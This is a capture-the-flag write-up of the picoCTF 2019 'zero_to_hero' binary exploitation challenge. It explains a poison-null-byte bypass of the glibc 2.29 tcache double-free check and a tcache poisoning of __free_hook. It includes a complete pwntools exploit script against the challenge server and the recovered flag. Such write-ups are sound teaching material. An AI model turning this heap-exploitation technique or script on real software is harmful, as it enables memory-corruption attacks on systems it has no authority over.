

<h1 align="center">🦸 zero_to_hero</h1>
<p align="center">
  <b>picoCTF 2019 Binary Exploitation Write-Up</b>
</p>
<p align="center">
  
  
  
  
</p>
<p align="center">
  A Poison Null Byte, a tcache Key-Check Bypass, and free() Becomes win()
</p>

---

# 📋 Environment

| Item       | Value                                                               |
| ---------- | ------------------------------------------------------------------- |
| Event      | picoCTF 2019 (run on CyLab Security Academy)                        |
| Category   | Binary Exploitation                                                 |
| Difficulty | Hard                                                               |
| Author     | Claude (per the CyLab listing)                                      |
| Handout    | `zero_to_hero` (64-bit ELF, No PIE, Full RELRO), `libc.so.6`, `ld-2.29.so` |
| Task       | Beat the libc 2.29 tcache double-free protection and read `flag.txt` |
| Tools Used | `pwntools`, `objdump`                                               |

---

# 🗺️ Overview

> The service is a superpower manager on glibc 2.29. It prints `&system` for free at startup, ships a hidden `win()` that prints `flag.txt`, and has two bugs: delete frees a pointer without clearing it, and add writes a null byte one past the chunk. We use the null byte to shrink a freed chunk's size field from `0x161` to `0x100`, free it again so it enters a different tcache bin, and thereby slip a double free past the 2.29 key check. Then it is standard tcache poisoning: point a forward pointer at `__free_hook`, write `win()` there, and free anything.

Steps:
* Leak `&system`, note `win()` at `0x400a02` and the pointer array at `0x602060`
* Put a `0x60` chunk below a `0x160` chunk, free both
* Reallocate the `0x60` chunk and fill it: the null byte rewrites the neighbor's size `0x161 -> 0x100`
* Free the neighbor again so it lands in the `0x100` bin, bypassing the key check
* Poison the forward pointer to `__free_hook`, write `win()`, free to trigger

---

# 📑 Table of Contents

1. [The Service and the Bugs](#the-service-and-the-bugs)
2. [The Leak and the Win](#the-leak-and-the-win)
3. [The 2.29 Double-Free Guard](#the-229-double-free-guard)
4. [The Poison Null Byte and the Bypass](#the-poison-null-byte-and-the-bypass)
5. [tcache Poison onto __free_hook](#tcache-poison-onto-__free_hook)
6. [The Exploit](#the-exploit)
7. [Flag](#-flag)
8. [Solution Summary](#solution-summary)
9. [Lessons and Takeaways](#lessons-and-takeaways)

---

# The Service and the Bugs

The menu adds, removes, and exits. Each power is a heap buffer whose pointer is stored in a global array at `0x602060`. Add chooses a size up to `0x408` and reads into the chunk:

```c
powers[num_powers] = (char *)malloc(size);
ssize_t amt = read(0, powers[num_powers], size);
powers[num_powers][amt] = '\x00';          // bug 2: one byte past the chunk
```

`read` returns the bytes it read, and the program writes a null at `buf[amt]`. Send exactly `size` bytes and `amt == size`, so the null lands at `buf[size]`, one past the usable space. On a full chunk, that byte is the next chunk's size field.

Remove frees without clearing the slot:

```c
free(powers[choice]);                      // bug 1: pointer is never cleared
```

The pointer stays in the array, giving a use-after-free. The index counter only counts up to the first null slot, so freeing a power does not free its slot number and our indices stay predictable.

---

# The Leak and the Win

`main` hands us a libc address before the loop:

```c
printf("It's dangerous to go alone. Take this: %p\n", system);
```

From the provided `libc.so.6`: `system` is at `0x52fd0` and `__free_hook` at `0x1e75a8`. So `libc_base = leaked_system - 0x52fd0` and `__free_hook = libc_base + 0x1e75a8`.

The binary also contains a function reachable from nowhere in the menu. Disassembly confirms it opens and prints the flag:

```text
400a11:  lea    rdi,[rip+0x485]        # "flag.txt"
400a18:  call   400880 <fopen@plt>
400a30:  call   4007f0 <putchar@plt>   # print the file, byte by byte
```

This is `win()` at `0x400a02`, and No PIE keeps that address fixed. Point `__free_hook` at it and the next `free()` prints the flag.

---

# The 2.29 Double-Free Guard

The obvious plan, free the same chunk twice and corrupt a forward pointer, dies at once on 2.29:

```text
free(): double free detected in tcache 2
```

When a chunk is freed into tcache, 2.29 stamps a `key` into it, and every free checks whether the chunk already carries that key for its size's bin, aborting if the chunk is already present there. The check is per size: it only compares the chunk against others in the bin for its current size. Make one chunk claim two different sizes and each free targets a different bin, so neither sees a duplicate.

---

# The Poison Null Byte and the Bypass

Lay a `0x60` chunk directly below a `0x160` chunk, and free both into their tcache bins. Reallocate the `0x60` chunk by requesting `0x58` bytes (the same chunk) and fill it. A `0x60` chunk has `0x58` usable bytes, so the appended null byte falls on the neighbor's size field:

```text
before:  [0x160 chunk] size = 0x0000000000000161
after:   [0x160 chunk] size = 0x0000000000000100
```

The neighbor is still sitting in the `0x160` bin, but its header now reads `0x100`. Free it again:

```text
delete(1)   # allocator reads size 0x100, checks the 0x100 bin, finds no duplicate, allows it
```

The chunk is now referenced by both the `0x160` and `0x100` bins. That is the double free, with no size freed twice.

To make the overflow land exactly, the filling description is sent as exactly `size` bytes with no trailing newline, forcing `amt == size`.

---

# tcache Poison onto __free_hook

tcache returns whatever forward pointer sits in a freed chunk, with no checks. With the chunk in two bins, corrupt its pointer through one and collect through the other:

1. Allocate `0xf0` (a `0x100` chunk): returns the duplicated chunk from the `0x100` bin. Write `p64(__free_hook)` into it. The `0x160` bin head now has a forward pointer of `__free_hook`.
2. Allocate `0x150` (a `0x160` chunk): pops that chunk, leaving `__free_hook` as the `0x160` bin head.
3. Allocate `0x150` again: returns `__free_hook` as a writable chunk. Write `p64(0x400a02)`.

`__free_hook` now points at `win()`. Free any valid power and `free()` calls `win()`, printing the flag.

---

# The Exploit

Offsets are baked in from the provided `libc.so.6`, so the remote run needs only pwntools and a network path to the service.

```python
#!/usr/bin/env python3
from pwn import *
import sys, re

context.update(arch='amd64', os='linux')
context.log_level = 'info'

HOST = 'xebec.cylabacademy.net'
PORT = 30970

# Offsets from the provided libc.so.6 (glibc 2.29):
SYSTEM_OFF    = 0x52fd0
FREE_HOOK_OFF = 0x1e75a8
WIN           = 0x400a02        # no-PIE binary: fopen("flag.txt") + print loop

def start():
    return remote(HOST, PORT)

p = start()

def initiate():
    p.recvuntil(b'So, you want to be a hero?')
    p.sendline(b'y')
    p.recvuntil(b'Take this: ')
    return int(p.recvline().strip(), 16)          # leaked &system

def add(size, data, overflow=False):
    p.recvuntil(b'> ')
    p.sendline(b'1')
    p.recvuntil(b'length of your description?')
    p.recvuntil(b'> ')
    p.sendline(str(size).encode())
    p.recvuntil(b'Enter your description: ')
    p.recvuntil(b'> ')
    if overflow:
        # send EXACTLY size bytes so read() returns size and the appended NUL
        # lands one byte past the chunk, onto the next chunk's size field.
        assert len(data) == size
    p.send(data)
    p.recvuntil(b'Done!')

def delete(idx):
    p.recvuntil(b'> ')
    p.sendline(b'2')
    p.recvuntil(b'remove?')
    p.recvuntil(b'> ')
    p.sendline(str(idx).encode())

system_addr = initiate()
libc_base   = system_addr - SYSTEM_OFF
free_hook   = libc_base + FREE_HOOK_OFF
log.success('leaked system = %#x' % system_addr)
log.success('libc base     = %#x' % libc_base)
log.success('__free_hook   = %#x' % free_hook)

add(0x50,  b'A' * 0x50)                 # slot0 -> 0x60 chunk
add(0x150, b'B' * 0x30)                 # slot1 -> 0x160 chunk (right above slot0)
delete(0)                               # 0x60  tcache
delete(1)                               # 0x160 tcache
add(0x58,  b'C' * 0x58, overflow=True)  # slot2 == chunk0; NUL rewrites chunk1 size 0x161 -> 0x100
delete(1)                               # free chunk1 again: lands in the 0x100 bin (double free)
add(0xf0,  p64(free_hook))              # slot3: from 0x100 bin; set chunk1->fd = __free_hook
add(0x150, b'D' * 0x30)                 # slot4: from 0x160 bin; bin head now -> __free_hook
add(0x150, p64(WIN))                    # slot5: returns __free_hook; write win() into it
delete(2)                               # free() -> win() -> prints flag.txt

data = p.recvall(timeout=8).decode('latin-1', 'replace')
sys.stdout.write(data + '\n')
m = re.search(r'(?:picoCTF|academy)\{[^}]*\}', data)
if m:
    log.success('FLAG: ' + m.group(0))
p.close()
```

Run it:

```text
$ python3 zero_to_hero_pwn.py
[+] leaked system = 0x7f...fd0
[+] libc base     = 0x7f...000
[+] __free_hook   = 0x7f...5a8
[+] FLAG: academy{i_th0ught_2.29_f1x3d_d0ubl3_fr33?_aCb7bCF5}
```

---

# 🚩 Flag

```text
academy{i_th0ught_2.29_f1x3d_d0ubl3_fr33?_aCb7bCF5}
```

No, libc 2.29 did not fix double free.

---

# Solution Summary



---

# Lessons and Takeaways

* **A pointer that survives a free is a double free waiting to happen.** Delete never clears the slot, so the freed chunk stays reachable.
* **One null byte defeats the 2.29 key check.** The duplicate guard only compares a chunk against its current size bin, so shrinking `0x161` to `0x100` sends the second free into a different bin where nothing matches.
* **Control the overflow by controlling how much you send.** `read` writes the null at the byte count it returns, so sending exactly `size` bytes puts it on the next chunk's size field.
* **tcache trusts its forward pointers.** Once the double free lets us corrupt one, the allocator hands back any address, turning a heap bug into an arbitrary write over `__free_hook`.
* **A free leak plus a hidden win() keeps the finish trivial.** No shellcode, no ROP: overwrite `__free_hook` with `win()` and let the next `free()` run it.

---

Written by **TheDingo8MyBaby**
picoCTF 2019 • zero_to_hero • flag: academy{i_th0ught_2.29_f1x3d_d0ubl3_fr33?_aCb7bCF5}
